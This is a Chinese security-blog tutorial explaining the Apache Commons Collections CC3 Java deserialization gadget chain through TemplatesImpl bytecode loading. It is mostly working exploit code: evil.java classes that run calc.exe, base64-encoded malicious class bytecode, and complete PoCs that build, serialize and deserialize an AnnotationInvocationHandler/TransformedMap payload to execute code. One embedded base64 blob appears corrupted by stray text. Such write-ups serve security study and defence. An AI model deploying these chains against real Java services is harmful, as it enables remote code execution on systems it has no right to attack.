# Java 反序列化：Apache Commons Collections CC3 利用链深度解析-先知社区

> **来源**: https://xz.aliyun.com/news/18398  
> **文章ID**: 18398

---

## 环境搭建

* **jdk 8u65**
* **Commons Collection 3.2.1**

jdk下载地址：<https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html#license-lightbox>

由于该链子是在CC1或者CC6的基础上稍稍进行了改变，所以jdk是不受限制的，只不过看是在哪个链子上改变而已。具体环境搭建可以看我之前的[文章](https://xz.aliyun.com/news/18291)

## 前言

由于CC3是在CC1或CC6的基础上进行改变的，不熟悉的师傅可看我前两篇文章：

[Java 反序列化：Apache Commons Collections CC1 利用链深度解析](https://xz.aliyun.com/news/18291)

[Java 反序列化：Apache Commons Collections CC6 利用链深度解析](https://xz.aliyun.com/news/18341)

同时该链子需要**类加载机制及如何动态加载字节码**的基础，可参考：

[Java类加载机制](https://b1uel0n3.github.io/2025/04/03/Java%E7%B1%BB%E5%8A%A0%E8%BD%BD%E6%9C%BA%E5%88%B6/)

[java动态加载字节码](https://www.cnblogs.com/gaorenyusi/p/18269747)

## CC3分析

### TemplatesImpl类构造

#### TemplatesImpl动态加载字节码

我们先简单回顾一下TemplatesImpl是如何加载字节码的。

Java程序编译和执行流程：

```
.java 源码 → javac 编译 → .class 字节码 → JVM 加载并执行
```

Java字节码指的是JVM执行使用的一类指令，格式为二进制文件，通常被储存在`.class`文件中

在类加载中我们知道Java加载都需要经过：

```
ClassLoader.loadClass -> ClassLoader.findClass -> ClassLoader.defineClass
```

其中：

* **loadClass的作用是从已经加载的类缓存、父加载器等位置寻找类（双亲委派机制），在前面没有找到的情况下，执行findClass**
* **findClass的作用就是根据基础URL制定的方式来查找类，读取字节码后交给defineClass**
* **defineClass的作用是处理前面传入的字节码，将其处理成真正的类**

defineClass决定如何将一段字节流转换变成一个Java类，而在`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`类中定义了一个内部类`TransletClassLoader`，该类继承了ClassLoader，同时重写了defineClass方法：  




其中我们可以向该方法传入恶意的字节码来执行，但其中有个问题就是该方法前面并没有标作用域，即默认为defalt：



而ClassLoader.defineClass默认为protected，即是不能被外部类调用的，所以需要找一个内部类来调用该方法，恰好Templatealmp类中的defineTransletClasses方法调用的defineClass:





\_bytecodes为我们要传入的恶意字节码，我们可以用反射来进行修改，注意defineTransletClasses内部还会执行一个run方法：  


该方法会创建一个TransletClassLoader对象，而\_tfactory需要是一个TransformerFactoryImpl，不能为空。

由于是private类型，在内部类搜索defineTransletClasses，找到TemplatesImpl.getTransletInstance方法：  


该方法调用了defineTransletClasses方法，前提是`_name`不为null且`_class`为null。

再搜索getTransletInstance，找到TemplatesImpl.newTransformer方法：



可以看到该方法调用了getTransletInstance方法，且作用域是public能直接调用，所以利用链也就找到了：

```
TemplatesImpl -> newTransformer()
TemplatesImpl -> getTransletInstance()
TemplatesImpl -> defineTransletClasses()
TemplatesImpl -> defineClass()
```

结合前面满足的条件：

```
_name != null
_class == null
_tfactory = new TransformerFactoryImpl()
_bytecodes = 恶意字节码
```

这些条件完全可以通过反射来修改，先构造恶意的字节码：

evil.java：

```
import java.io.IOException;

public class evil {
    public evil() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

先进行编译，然后将.class文件进行base64编码读取：




poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.IOException;

import java.lang.reflect.Field;
import java.util.Base64;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAHwoABgASCgATABQIABUKABMAFgcAFwcAGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAGQEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAGgwAGwAcAQAIY2FsYy5leGUMAB0AHgEABGV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAEAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAEAAQABQANAAYACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAAAAAIAEQ==");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());
        Impl.newTransformer();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



可是报错并且没有弹计算机，看了师傅的文章才知道`TemplatesImpl`中对加载的字节码是有一定要求的，这个字节码对应的类必须是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`的子类。

所以我们修改代码：

evil.java：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    public evil() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

重新得到字节码：



poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.IOException;

import java.lang.reflect.Field;
import java.util.Base64;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());
        Impl.newTransformer();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



虽然报错但也成功弹计算机了。

#### CC1环境下

其实CC3简单点说就是将链子后半部分利用危险方法的方式变了。CC1是通过获取Runtime对象执行exec方法，而CC3是通过TemplatesImpl动态加载字节码来执行恶意命令。

所以修改下后半段poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.IOException;

import java.lang.reflect.Field;
import java.util.Base64;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAzheyangMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        ConstantTransformer Im=new ConstantTransformer(Impl);
        InvokerTransformer newTransformer=new InvokerTransformer("newTransformer",null,null);
        Transformer[] transformers = new Transformer[]{Im,newTransformer};
        
        ChainedTransformer chaind=new ChainedTransformer(transformers);
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```

然后将poc剩下部分抄上去：

CC3（TransfomedMap）完整poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        ConstantTransformer Im=new ConstantTransformer(Impl);
        InvokerTransformer newTransformer=new InvokerTransformer("newTransformer",null,null);
        Transformer[] transformers = new Transformer[]{Im,newTransformer};
        ChainedTransformer chaind=new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap=new HashMap<>();
        Map<Object,Object> transformedMap= TransformedMap.decorate(hashMap,null, chaind);
        hashMap.put("value","b1uel0n3");

        Class<?> cls= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o=constructor.newInstance(Retention.class,transformedMap);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```

